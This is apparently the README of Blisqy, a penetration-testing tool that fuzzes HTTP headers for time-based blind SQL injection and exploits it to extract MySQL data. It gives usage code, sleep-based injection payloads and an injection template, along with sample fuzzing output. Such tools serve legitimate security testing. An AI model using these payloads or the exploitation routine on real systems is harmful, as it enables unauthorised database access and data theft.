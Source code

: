 # 1. Blisqy

Blisqy is a tool to aid Web Security researchers to find Time-based Blind SQL injection on HTTP Headers and also exploitation of the same vulnerability.

The exploitation enables slow data siphon from a database (currently supports MySQL/MariaDB only) using bitwise operation on printable ASCII characters, via a blind-SQL injection.

For interoperability with other Python tools and to enable other users utilise the features provided in Blisqy, the modules herein can be imported into other Python based scripts.

When testing for Time-based Blind SQL injections, any network lag or congestion can affect the effectiveness of your fuzzing or exploitation. To compensate for the possible network lags and uncertainties that might cause delays, Blisqy time comparison is dynamic and it's calculated at runtime for each test. The tests utilizes `greenlet`(alight-weight cooperatively-scheduled execution unit) to provide a high-level synchronous API on top of `libevevent` loop. It provides a fast and efficient way of carrying out the payload tests in a short time, also, one particular test should not affect  another because they are not fully done in a sequential method.

## 1.1. New Feature(s)

Blisqy now supports fuzzing for Time-based Blind SQL Injection on HTTP Headers and the main functionalities (fuzzing and exploitation) separated to independent files for portability.

## 1.2. Fuzzing with Blisqy

To use the Fuzzing functionality, import the following module in your Python script and provide a target along with the fuzzing data as shown below:

```python
from lib.blindfuzzer import blindSeeker
```

Target parameters should be in a Dictionary/JSON format, for example (*Note the variable data-types)*:

```python
    Server = '192.168.56.101'
    Port = 80
    Index = 1
    Method = 'GET'
    Headerfile = "fuzz-data/headers/default_headers.txt"
    Injectionfile = "fuzz-data/payloads/mysql_time.txt"

    target_params = {
        'server': Server,
        'port': Port,
        'index': Index,
        'headersFile': Headerfile,
        'injectionFile': Injectionfile,
        'method': Method
    }
```

Invoking the fuzzer once the target parameters are provided is as follow :

```python
vulns = blindSeeker(target_params)
vulns.fuzz()
```

You can checkout `FindBlindSpot.py` for this example provided.

### 1.2.1. Sample Fuzzing Output

If you are successful, you should get a report of the 'injectable' tests carried out. Please note, as much as Blisqy tries to compensate for network lags and congestion while testing it's is important to proof-test the reported positive tests before proceeding.

Below in sample report:

```json
=================== [ Key Terms] ===================
Index = Configured Constant (Delay)
Base Index Record = Server Ping Before Fuzzing
Benching Record  = Base Index Record + Index
Fuzzing Record = Time taken to process request with Index

===================== [ Logic] =====================
If Fuzzing Record is greater than Benching Record,
treat as a positive; else, treat as a negative.



[+] Injection : X-Forwarded-For : ' or sleep(1)#

[+] Header : X-Forwarded-For

[*] Index Record : 0.000160932540894
[*] Benching Record : 1.00016093254
[*] Fuzzing Record : 9.01
[!] Test 436 is Injectable.
__________________________________

[+] Injection : X-Forwarded-For : ' or sleep(1)='

[+] Header : X-Forwarded-For

[*] Index Record : 0.000378847122192
[*] Benching Record : 1.00037884712
[*] Fuzzing Record : 18.02
[!] Test 438 is Injectable.
__________________________________
```

Screenshot of Blisqy Fuzzer in action:

![Fuzz for Blind SQLi](https://i.imgur.com/Bc8M3V7.png)

## 1.3. Exploitation with Blisqy

After finding a potential Time-based Blind SQL injection, you can prepare a script to Exploit the vulnerable Web application.

Just as the fuzzer, you can import the module for exploitation in your Python script and define a template for the exploitation operation. Below is an example of how to import the module in a Python script:

```python
from lib.blindexploit import SqlEngine
```

Next, you will need to provide details of your target along with it's target parameters for exploitation. Below is a sample implementation of exploiting the found blind sql injection found by the fuzzer:

The target data should be in a Dictionary/JSON format specifying the server, port, the found vulnerable header and it's value (some applications will need or check for a certain value).

```python
target = {
    'server': '192.168.56.101',
    'port': 80,
    'vulnHeader': 'X-Forwarded-For',
    'headerValue': 'fuzzer'
}
```

Target parameters should follow allowing the user to specify some options related to the exploitation preferences.

```python
targetParam = {
    'sleepTime': 0.1,
    'payload': 'pass',
    'mysqlDig': 'yes',
    'interactive': 'on',
    'verbosity': 'high'
}
```

- **sleepTime** is the delay to be used in the payloads
- **payload** is an option to run the exploitation with a custom SQL query e.g. `select @@hostname`. The default option is `'pass'`.
- **mysqlDig** enables the exploitation to be automatic and to enumerate all the available tables in the schema.
- **interactive** is an option to enable the user interact with the exploitation routine. This can be handy when you want to skip to the interesting parts of the DB.
- **verbosity** can be high, medium or low. This just controls the output information from the exploitation routine.

After providing your target and its parameters, the next thing to provide is a template for the exploitation routine. Blisqy provides a way users can specify where to inject the exfiltration SQL payload and the `sleeptime` delay. Below is an example of an implementation for one of the found vulnerabilities on the sample report provided in the previous subsection.

Found injection on X-Forwarded-For header:

```sql
' or sleep(1)='
```

Template for this particular injection:

```sql
sqli = "' or if((*sql*),sleep(*time*),0) and '1'='1"
```

During runtime, the `*sql*` will be replaced with an SQL injection payload and `*time*` will be replaced with a delay for sleep().

Once all these are done, the last part is to instantiate the exploitation routine and let the `MysqlDigger()` method do the working.

```python
# Create an instance
BlindSql = SqlEngine(target, targetParam, sqli)

# Enumerate the MySql Database
BlindSql.MysqlDigger()
```

You can check `ExploitBlindSpot.py` for this example provided.

Below is an example of an exploitation operation:

![Exploit Blind SQLi](https://i.imgur.com/HfKoJrz.png)

## 1.4. To Do

- ~~Integrate an intelligent Fuzzer for hunting SQL injection vulnerability(ies) on HTTP Headers and Web Elements~~
- Support Blind-SQLi fuzzing and exploitation on WEB endpoints apart from HTTP Headers.

### 1.4.1. Contribute

You can alert me of anything interesting you've found with Blisqy or what you think should be added/removed.

- Share your ideas and wishlist,
- Spot a typo? Lemme know,
- Found ways we ca optimise Blisqy?,
- Suggest ways to incorporate support for other DBMS.

### 1.4.2. Reference

- (PDF) Time-Based Blind SQL Injection via HTTP Headers: Fuzzing and Exploitation.. Available from: [https://www.researchgate.net/publication/328880240_Time-Based_Blind_SQL_Injection_via_HTTP_Headers_Fuzzing_and_Exploitation](https://www.researchgate.net/publication/328880240_Time-Based_Blind_SQL_Injection_via_HTTP_Headers_Fuzzing_and_Exploitation)

- PentesterLab - From SQL Injection to Shell II [https://pentesterlab.com/exercises/from_sqli_to_shell_II/course](https://pentesterlab.com/exercises/from_sqli_to_shell_II/course)